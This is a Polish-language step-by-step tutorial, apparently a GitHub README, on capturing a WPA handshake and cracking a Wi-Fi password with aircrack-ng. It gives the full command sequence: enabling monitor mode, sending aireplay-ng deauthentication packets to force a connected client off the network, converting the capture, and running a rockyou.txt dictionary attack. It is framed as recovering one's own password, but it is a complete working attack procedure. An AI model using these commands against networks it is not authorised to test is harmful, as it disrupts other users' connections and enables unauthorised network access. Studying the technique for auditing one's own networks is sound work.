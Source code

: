 1) Wlacz nasluchiwanie przez karte sieciowa

``` airmon-ng start wlan0  ```

Mamy teraz nowa nazwe karty:

``` wlan0mon ```

2) Nasluchuj sieci w poblizu i znajdz swoja:

``` airodump-ng wlan0mon ```

3) Gdy zobaczysz swoja siec zastopuj nasluchiwanie i skopiuj bssid, oraz
kanal:

``` airodump-ng wlan0mon --bssid MAC -c CHANNEL [np. 6] ```

4) Gdy juz zobaczysz ze nasluchuje tylko te siec i wszystko dziala
mozemy przystapic do dzialania.

Zastopuj i dopisz do komendy:

``` -w NAZWA ```

Spowoduje to wypisywanie do plikow o danej nazwie wszystkiego co sie dzieje podczas
nasluchiwania. Przyda nam sie to do przejecia pliku .cap

5) Szukamy MAC'ow aktualnie podlaczonych urzadzen do routera. Kopiujemy go i bssid do
nastepnej komendy.

6) Majac wlaczone nasluchwanie wykonujemy:

```
 aireplay-ng -a BSSID_MAC -c CLIENT_MAC --deauth 40 wlan0mon
```

Zostana wyslane do klienta pakiety ktore rozlacza go na chwile z sieci,
aby musial znow sie do niej automatycznie podlaczyc.

7) Po chwili zatrzymujemy atak i patrzymy czy w poprzedniej konsoli gdzie
nasluchiwalismy pokazala sie wiadomosc:

``` WPA handshake ```

Jesli tak wylaczamy nasluchiwanie. Jesli nie powtarzamy.

8) Karta w trybie nasluchwania juz nam sie nie przyda wiec mozemy ja wylaczyc i 
wrocic do poprzedniej wersji:

``` airmon-ng stop wlan0mon ```

Teraz mozesz ponownie korzystac z internetu na komputerze ;) 

9) Przystepujemy do zmiany pliku .cap na --> .hccapx

W tym celu uzyjemy narzedzia aircrack. Mozesz lamac to innymi ktore maja 
taka opcje np. hashcat'em.

Opcja:

``` -j ```

Pomoze nam w zamianie.

10) Wpisujemy:

``` aircrack-ng -j OUTPUT_NAME NAZWA.cap ```

Po chwili powinnien pokazac ci sie plik o nazwie ktora podales po parametrze
-j.

11) Podchodzimy do odzyskiwania hasla. W tym celu bedziemy potrzebowac jakis
slownik mozemy uzyc jakiegos z np. systemu kali.

``` aircrack-ng NAZWA.hccapx -w /usr/share/wordlists/rockyou.txt [slownik] ```

Jesli w slowniku natrafi na nasze haslo pokaze nam to.

12) Powodzenia w odzyskiwaniu!